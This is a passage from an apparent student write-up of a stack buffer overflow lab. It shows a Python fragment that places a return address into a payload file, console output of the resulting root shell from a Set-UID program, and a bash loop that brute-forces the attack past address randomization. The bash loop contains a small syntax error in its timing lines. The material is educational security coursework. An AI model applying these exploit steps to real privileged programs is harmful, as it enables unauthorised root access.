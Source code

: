 ```python
# and put it somewhere in the payload
ret    = 0xffffcdc8 + 120          # Change this number 
offset = 112              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Running this code is able to get the root shell:

```console
~/Documents/BufferSetUID/code$ vim exploit.py
~/Documents/BufferSetUID/code$ ./exploit.py
~/Documents/BufferSetUID/code$ ./stack-L1
Input size: 517
# id
uid=0(root) gid=1001(seed) groups=1001(seed),120(docker)
```

## Task 8: Defeating Address Randomization

By resetting the environment

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=2
```

address space including the positions of the stack, virtual dynamic shared object page, shared memory regions, and data segments is randomized, which is the most secure system setting.

Use the following shell script to brute-force the attack:

```console
#!/bin/bash
SECONDS=0
value=0
while true; do
    value=$(( $value + 1 ))
    duration=$SECONDS
    min = $(( $duration / 60 ))
    sec = $(( $duration % 60 ))
    echo "$min minutes and $sec seconds elapsed."
    echo "The program has been running $value times so far."
    ./stack-L1
done
```

## Notes


[^1]: See "Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006."
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.